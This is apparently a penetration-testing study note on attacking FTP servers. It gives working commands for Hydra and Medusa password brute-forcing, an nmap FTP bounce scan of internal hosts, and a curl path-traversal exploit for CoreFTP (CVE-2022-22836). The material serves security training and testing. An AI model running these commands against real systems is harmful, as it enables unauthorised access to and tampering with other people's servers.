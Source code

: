 #FTP #Medusa 
## Attacking FTP

| **Command**                                                                                                                               | **Description**                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
| `ftp 192.168.2.142`                                                                                                                       | Connecting to the FTP server using the `ftp` client. |
| `nc -v 192.168.2.142 21`                                                                                                                  | Connecting to the FTP server using `netcat`.         |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`                                                                  | Brute-forcing the FTP service.                       |
| `medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp `                                                             | Brute-forcing the FTP service                        |
| `curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops` | CoreFTP exploit                                      |
| `nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2`                                                                      | Bounce attack                                        |
|                                                                                                                                           |                                                      |

---

Once we get access to an FTP server with anonymous credentials, we can start searching for interesting information. We can use the commands `ls` and `cd` to move around directories like in Linux. To download a single file, we use `get`, and to download multiple files, we can use `mget`. For upload operations, we can use `put` for a simple file or `mput` for multiple files. We can use `help` in the FTP client session for more information.

---
#### Brute Forcing

If there is no anonymous authentication available, we can also brute-force the login for the FTP services using a list of the pre-generated usernames and passwords. There are many different tools to perform a brute-forcing attack. Let us explore one of them, [Medusa](https://github.com/jmk-foofus/medusa). With `Medusa`, we can use the option `-u` to specify a single user to target, or you can use the option `-U` to provide a file with a list of usernames. The option `-P` is for a file containing a list of passwords. We can use the option `-M` and the protocol we are targeting (FTP) and the option `-h` for the target hostname or IP address.

**Note:** Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.

---
#### FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

The `Nmap` -b flag can be used to perform an FTP bounce attack:

  FTP Bounce Attack

```
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

---

#### CoreFTP exploit

 [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836). This vulnerability is for an FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability. This vulnerability allows us to write files outside the directory to which the service has access.

---

This FTP service uses an HTTP `POST` request to upload files. However, the CoreFTP service allows an HTTP `PUT` request, which we can use to write content to files. Let's have a look at the attack based on our concept. The [exploit](https://www.exploit-db.com/exploits/50652) for this attack is relatively straightforward, based on a single `cURL` command.

  CoreFTP Exploitation

```
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
